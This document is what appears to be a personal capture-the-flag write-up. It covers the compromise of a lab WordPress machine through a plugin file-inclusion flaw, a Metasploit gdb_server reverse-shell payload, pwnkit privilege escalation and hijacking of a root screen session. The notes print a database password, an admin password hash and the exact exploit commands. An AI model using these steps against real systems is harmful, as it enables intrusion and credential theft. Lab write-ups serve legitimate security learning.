




Running wp scan we dont find anything super important
Manually looking at the plugins we have a weird ebook_download plugin which looks like it has an LFI vuln
https://www.exploit-db.com/exploits/39575
Using the POC we can download the Wp config

define( 'DB_NAME', 'wordpress' );
/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );
/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );
/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
Tried signing into wordpress and mysql but I was unable to
The intended way is to get the processes running and use a bash script to figure out what the processes are
When looking for exploits I saw that the machine was running gdb_server
There is a metasploit module for this
multi/gdb/gdb_server_exec
payload needs to be x64
set payload linux/x64/meterpreter/reverse_tcp
admin hash from mysql
admin | $P$Bt8c3ivanSGd2TFcm3HV/9ezXPueg5. | admin | admin@wordpress.com
linpeas info
yellow
/bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root ;; done
╔══════════╣ Checking Pkexec policy
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#pe-method-2
[Configuration]
AdminIdentities=unix-user:0
I decided to run metasploits module to look for exploits multi/recon/local_exploit_suggester
exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec Yes The target is vulnerable.
I have never seen “The target is vulnerable” its always appears to be vulnerable
I tried the exploit and sure enough it worked

This however wasnt the intended way. We can get a root shell with the screen command running in a loop

This command makes our terminal screen all weird but gives us root
TERM=screen screen -x root/956
